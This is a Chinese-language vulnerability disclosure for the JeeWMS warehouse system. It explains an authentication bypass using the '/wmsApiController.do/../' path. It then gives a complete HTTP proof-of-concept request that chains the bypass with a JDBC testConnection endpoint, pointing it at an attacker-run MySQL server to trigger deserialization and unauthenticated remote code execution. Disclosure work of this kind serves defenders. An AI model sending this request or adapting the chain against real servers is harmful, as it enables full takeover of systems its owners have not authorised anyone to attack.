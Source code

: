 一、未授权访问：

身份校验类为 `org.jeecgframework.core.interceptors.AuthInterceptor`

之前可以使用`/rest/../`进行身份绕过，最新代码已经进行了修复，但是依然可以绕过实现未授权访问后台路由

漏洞代码位于`org.jeecgframework.core.interceptors.AuthInterceptor#preHandle`方法中错误的使用了`moHuConain`方法

![image-20250723155848602](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250723155848602.png?imageSlim)

`excludeContainUrls`包含的`url`如下图所示

![image-20250723155858276](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250723155858276.png?imageSlim)

由于`moHuContain`方法的验证逻辑是，只要`url`中包含`wmsApiController.do`或者`systemController/showOrDownByurl.do`，就可以直接通过身份校验。

漏洞复现如下所示：

(1) 包含`wmsApiController.do`之前，直接访问后台路由或者使用`/rest/../`进行绕过是无效的

![image-20250723155909416](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250723155909416.png?imageSlim)

![image-20250723155918521](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250723155918521.png?imageSlim)

(2) 包含`wmsApiController.do`之后，可以未授权访问后台路由，使用`/wmsApiController.do/../`进行绕过

![image-20250723155927883](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250723155927883.png?imageSlim)

二、远程代码执行

`org.jeecgframework.web.system.controller.core.DynamicDataSourceController#testConnection` 存在 `Mysql JDBC`反序列化导致任意代码执行

漏洞`POC`如下所示

```
GET /jeewms/wmsApiController.do/../dynamicDataSourceController.do?testConnection&driverClass=com.mysql.jdbc.Driver&url=jdbc:mysql://192.168.70.184:53101/test?autoDeserialize=true%26statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor%26user=deser_CUSTOM HTTP/1.1
Host: 192.168.21.128:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

![image-20250723155944506](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250723155944506.png?imageSlim)

二者结合可以打出前台无条件`RCE`的效果，实现任意代码执行，攻击者可以获取目标服务器权限。